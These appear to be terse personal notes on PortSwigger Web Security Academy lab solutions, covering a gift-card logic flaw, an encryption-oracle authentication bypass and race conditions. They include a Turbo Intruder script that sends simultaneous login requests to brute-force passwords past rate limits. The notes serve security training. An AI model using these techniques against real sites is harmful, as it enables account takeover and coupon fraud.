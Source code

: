     Gift Card
1. buy a gift card using promocode then retrive the profit
2. do the macro by go to the session
3. POST /cart -> POST /cart/coupon -> GET /cart/order-confi... -> POST /gift-card
4. trick: Derive from priop response
---
**Authentication bypass via encryption oracle**

    delete carlos
    stay-logged-in
    Cookie: notification
1. post on any blog with invalid comment (e.g. no @, send the request with repeater)
2. add notification to the cookie
3. try input `&email=administrator:1707730245732` will get an error
`%34%4f%79%36%58%32%52%5a%75%74%41%68%53%69%69%52%42%31%77%77%61%79%59%55%6b%30%74%39%33%39%4c%52%48%51%57%66%33%69%7a%54%36%72%30%3d`

----
----

# Race condition

**Limit overrun race conditions**
1. use Burp Intruder to send PROMO request concurrent
---

**Bypassing rate limits via race conditions**

    delete carlos
    login attemps. Pleae try again in .. seconds
1. send post login to Turbo
2. copy password list to clipboard (Ctrl+C)
```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
---
**Multi-endpoint race conditions**
```http
POST /cart HTTP/2
Host: 0a5000bf0479e02a80fe35ea00bf00de.web-security-academy.net
```